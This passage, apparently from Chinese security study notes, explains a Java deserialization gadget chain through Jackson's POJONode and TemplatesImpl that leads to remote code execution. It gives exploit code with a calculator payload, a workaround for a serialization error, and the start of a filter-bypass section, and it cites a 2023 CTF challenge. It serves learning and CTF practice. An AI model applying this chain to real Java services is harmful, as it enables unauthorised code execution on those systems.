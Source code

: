 BadAttributeValueExpException ->  POJONode.toString -> getter(TemplateImpl.getOutputProperties)

EXP 非常简单：
```java
    public static POJONode toString2RCE(String cmd) throws Exception {
        TemplatesImpl evilTemplates = GTemplates.getEvilTemplates(cmd);
        POJONode jsonNodes = new POJONode(evilTemplates);
        return jsonNodes;
    }

    public static void main(String[] args) throws Exception {
        POJONode jsonNodes = toString2RCE("mate-calc");
        BadAttributeValueExpException bd = GBadAttributeValueExpException.deserialize2ToString(jsonNodes);
        SerializeUtils.serialize(bd, "/tmp/ser.bin");
        SerializeUtils.deserialize("/tmp/ser.bin");
    }
```

但这个类在序列化时会产生如下报错，导致反序列化时无法正常执行 payload，报错的原因在于，ObjectOuptputStream.writeObject0 方法会判断被序列化的类是否实现了 writeReplace 方法，如果实现了该方法，则会调用这个方法，POJONode 的父类 BaseJsonNode 恰好实现了 writeReplace 方法，这个报错就是在调用 BaseJsonNode.writeReplace 方法时产生。
```bash
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Exception in thread "main" java.lang.IllegalArgumentException: Failed to JDK serialize `POJONode` value: (was java.lang.NullPointerException) (through reference chain: com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl["outputProperties"])
	at com.fasterxml.jackson.databind.node.NodeSerialization.from(NodeSerialization.java:40)
	at com.fasterxml.jackson.databind.node.BaseJsonNode.writeReplace(BaseJsonNode.java:28)
```

解决办法是重写一个 BaseJsonNode，并将 writeReplace 方法注释掉。
```java
public abstract class BaseJsonNode
        extends JsonNode
        implements java.io.Serializable
{
    private static final long serialVersionUID = 1L;

    // Simplest way is by using a helper
//    Object writeReplace() {
//        return NodeSerialization.from(this);
//    }

    ...
```
CTF 例题可见 AliyunCTF 2023 Bypassit I

## 绕过 resolveClass
Jackson 没有像 FastJson 那样实现了一个自定义的 SecureObjectInputStream 去进行过滤，通常题目中会编写一个 resolveClass 的继承类，在反序列化入口进行过滤，绕过的方式首先考虑二次反序列化。

### 二次反序列化绕过
使用 SignedObject 套一层，利用链如下：
